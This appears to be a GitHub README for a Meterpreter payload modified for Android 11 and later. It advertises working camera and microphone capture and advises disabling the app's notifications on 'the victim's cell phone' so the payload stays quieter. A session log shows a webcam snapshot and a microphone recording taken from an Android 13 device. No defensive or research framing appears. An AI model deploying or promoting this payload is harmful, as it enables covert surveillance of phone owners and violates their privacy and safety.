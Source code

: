<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
# Meterpreter-Android
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```
Tuturial:
https://youtu.be/WDRiazpjrwk?si=kY3CVy4QxuU-zTD4

